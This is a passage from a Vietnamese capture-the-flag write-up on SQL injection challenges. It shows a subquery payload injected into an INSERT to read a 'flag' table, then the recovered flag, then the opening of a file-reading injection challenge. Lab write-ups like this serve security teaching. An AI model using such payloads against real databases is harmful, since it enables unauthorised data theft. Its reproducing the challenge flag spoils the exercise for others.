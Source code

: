 - Ta có tên cột là `flag`.

- Cuối cùng select từ `flag` là ra:

```
email'),('asdf', '1234', (select flag from flag limit 0,1))
```

- Result:

![1](img/59/7.png)

```
Flag: moaZ63rVXUhlQ8tVS7Hw
```

# 60. SQL injection - File Reading

- Challenge cung cấp cho ta 1 form login:

![1](img/60/1.png)
